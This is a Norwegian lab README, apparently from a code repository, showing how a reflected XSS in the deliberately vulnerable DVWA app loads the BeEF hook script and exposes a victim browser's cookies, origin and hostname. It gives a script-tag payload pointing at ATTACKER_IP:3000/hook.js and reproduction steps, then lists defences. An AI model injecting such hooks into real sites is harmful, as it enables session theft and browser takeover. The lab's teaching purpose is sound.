 # BeEF + XSS mot DVWA — lab

En fiktiv, lukket lab som demonstrerer hvordan en **refleksiv XSS** i DVWA kan brukes til å **hooke en nettleser** i **BeEF**. Deretter inspiseres klientdata i BeEF-panelet for å illustrere risikoen.

> **Ansvar/Etikk:** Dette er kun demonstrasjon i eget labmiljø. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Maskér alltid sensitive verdier (f.eks. PHPSESSIONID) i skjermbilder.

---

## Mål
- Utløse en **XSS** i DVWA og laste inn BeEFs hook-skript.
- Få offerets nettleser til å dukke opp som **hooked** i BeEF.
- Vise at BeEF kan lese **origin**, **cookies** og **hostname** fra klienten.

## Laboppsett (eksempel)
- **Angriper:** Kali Linux med BeEF (Hook-URL: `http://ATTACKER_IP:3000/hook.js`)
- **Mål:** DVWA (Reflected XSS, Low)
- **Offer:** Nettleser i samme labnett
- IP-adressene i bildene er eksempler; bruk dine egne.

## Hvorfor dette fungerer (kort forklart)
XSS lar oss kjøre vilkårlig JavaScript i offerets nettleser. Når vi injiserer:
```html
<script src="http://ATTACKER_IP:3000/hook.js"></script>
```
lastes BeEFs **hook** inn i offerets DOM. Nettleseren etablerer da en kontrollkanal tilbake til BeEF-serveren. I BeEFs UI blir offeret synlig, og vi kan lese/operere på utvalgte nettleser-egenskaper (f.eks. cookies, origin). Dette visualiserer risikoen ved XSS.

---

## Evidens (skjermbilder)

**1) BeEF kjører (server/UI oppe)**
![BeEF start](images/beef-start.png)

**2) XSS i DVWA (injiserer hook)**
> Payload demonstrert i DVWA Reflected XSS: `<script src="http://ATTACKER_IP:3000/hook.js"></script>`
![DVWA XSS-injection](images/dvwa-inject.png)

**3) Offer “hooked” i BeEF**
![BeEF victim listed](images/beef-victim-listed.png)

**4) Details-fanen (maskér sensitive felter)**
> Her ser du f.eks. `browser.window.origin`, `browser.window.hostname` og `browser.window.cookies`.
![BeEF details](images/beef-details.png)

---

## Reproduser (kort)
1. **Start BeEF** på angripermaskinen (notér hook-URL, typisk `http://ATTACKER_IP:3000/hook.js`), og logg inn i UI.
2. **Sett DVWA til Low** (Security → Low).
3. Gå til **XSS (Reflected)** i DVWA og injisér:
   ```html
   <script src="http://ATTACKER_IP:3000/hook.js"></script>
   ```
4. Last siden i offer-nettleseren → sjekk BeEF-panelet: offeret vises som **hooked**.  
5. Åpne **Details** for offeret og observer origin/hostname/cookies. **Maskér session-ID** før publisering.

---

## Hva bildene viser (hurtigkart)
- `images/beef-start.png` – BeEF-UI kjører (panel oppe).
- `images/dvwa-inject.png` – Hook injisert via DVWA XSS (Reflected).
- `images/beef-victim-listed.png` – Nettleser dukker opp som hooked i BeEF.
- `images/beef-details.png` – Details-fanen (origin, cookies, hostname) – **sladd cookies**.

### Vedlegg (valgfritt – ekstra kontekst)
- `images/beef-auth.png` – BeEF innloggingsskjerm.  
- `images/beef-console.png` – Konsollutskrift ved oppstart av BeEF.  
- `images/beef-console-and-panel.png` – Konsoll + panel samtidig; viser “New Hooked Browser…”.  
- `images/beef-config-hook.png` – Utdrag av hook-konfig (`hook_file`, `hook_session_name`).

---

## Forsvarstiltak (kort)
- **Input-validering & escaping** på server og klient.
- **CSP** (Content Security Policy) for å begrense eksterne skript.
- **HttpOnly/Secure/SameSite** for cookies; session-hygiene.
- Rammeverksoppdateringer, sikkerhetstester i CI/CD og bevisstgjøring.

## Lisens
MIT
